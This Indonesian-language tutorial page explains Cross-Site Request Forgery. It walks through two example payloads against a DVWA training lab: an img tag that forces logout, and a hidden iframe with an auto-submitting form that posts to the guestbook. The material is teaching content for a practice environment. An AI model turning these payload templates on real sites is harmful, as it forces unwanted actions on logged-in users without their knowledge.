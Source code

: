 # Cross-site Request Forgery


Cross-Site Request Forgery (CSRF) serangan yang memaksa pengguna untuk melakukan tindakan yang tidak diinginkan pada aplikasi web di mana mereka saat ini diautentikasi.

Dengan sedikit bantuan rekayasa sosial (seperti mengirim tautan melalui email atau obrolan), penyerang dapat memaksa pengguna aplikasi web untuk melakukan tindakan yang dipilih penyerang. Eksploitasi CSRF yang berhasil dapat membahayakan data dan operasi pengguna akhir ketika menargetkan pengguna normal. Jika pengguna akhir yang ditargetkan adalah akun administrator, serangan CSRF dapat membahayakan seluruh aplikasi web.

CSRF bergantung pada:

1. Perilaku browser web mengenai penanganan informasi terkait sesi seperti cookie dan informasi otentikasi HTTP.
2. Pengetahuan penyerang tentang URL aplikasi web, permintaan, atau fungsionalitas.
3. Session management pada aplikasi hanya mengandalkan informasi yang dikenal oleh browser.
4. Adanya tag HTML yang kehadirannya menyebabkan akses langsung ke asset; misalnya tag gambar img.

Poin 1, 2, dan 3 sangat penting untuk menghadirkan kerentanan, sementara poin 4 memfasilitasi eksploitasi yang sebenarnya, tetapi tidak sepenuhnya diperlukan.

## **Konsep CSRF dengan HTTP Get**

Ketika kalian mengakses suatu domain, browser akan secara otomatis mengirimkan informasi data cookie sesuai dengan domain yang diatur sebelumnya. Artinya misal kalian mengakses google.com maka browser akan mengirimkan cookie secara otomatis yang tersimpan sebelumnya.

![](https://lh6.googleusercontent.com/IF9qvh5Va1XAM6Vir6Xt2cBjEzs5Af6XrCsIdbGctEeUAbVJW5wNwpyOfvOfYpFt_hkqTDZ1daUQtF6eeSfezmobrbv9DkLEO_SwVVEvhZa6rp8q3fQ3dSOOMnIVIIML3B93_6-ypXHlpy13SAonFFkva04)

Gambar: Ilustrasi serangan CSRF

Sebagai contoh pada lab DVWA kalian menemukan bahwa URL untuk bisa logout berada di URL berikut :

```bash
http://vuln.cilsy.id:31333/logout.php
```

URL logout di atas tidak ada validasi asal request dibuat. Sehingga kita bisa membuat exploit CSRF logout sebagai berikut :

```html
<img src="http://vuln.cilsy.id:31333/logout.php"/>
```

Tag img ketika di render oleh web browser akan secara otomatis memuat gambar sesuai dengan lokasinya. Karena lokasi tersebut berupa link URL untuk logout maka ketika pengguna mengakses halaman tersebut akan otomatis logout seketika.

## **Konsep CSRF dengan HTTP Post**

Selain mengantarkan exploit CSRF dengan bantuan tag IMG, kita bisa juga mengantarkan exploit dengan jenis HTTP Post menggunakan javascript ataupun HTML. Sebagai contoh pada DVWA terdapat fitur guestbook. Kita bisa menggunakan HTML untuk memaksa pengguna mengirimkan HTTP Post tanpa dia sadari. Berikut contoh exploit CSRF pada guestbook DVWA :

```html
<html>

<head>
   <title>GuestBook Exploit</title>
</head>

<body>
   <iframe style="display:none" name="csrf-frame"></iframe>
   <form id="idForm" action="http://vuln.cilsy.id:31333/vulnerabilities/xss_s/" target="csrf-frame" method="POST">
   	<input type="hidden" name="txtName" value="SekolahHacker" />
   	<input type="hidden" name="mtxMessage" value="CSRF Exploit" />
   	<input type="hidden" name="btnSign" value="Sign Guestbook" />
   	<input type="submit" style="visibility:hidden" />
   </form>
   <script>
   	document.getElementById("idForm").submit();
   </script>
</body>

</html>
```

Penjelasan mengenai cara kerja HTML diatas, ketika kita mengakses halaman HTML tersebut hanya muncul halaman kosong. Namun ternyata didalamnya terdapat sebuah form yang tersembunyi berisi nama dan pesan buku tamu yang sudah di atur oleh penyerang. Di Bagian bawah terdapat javascript untuk memaksa submit data tersebut dan dikirim ke URL [http://vuln.cilsy.id:31333/vulnerabilities/xss_s/](http://vuln.cilsy.id:31333/vulnerabilities/xss_s/). Karena web application tidak mampu memverifikasi asal usul darimana request tersebut dilakukan akhirnya data tersebut dimasukkan ke dalam database tanpa sepengetahuan pengguna.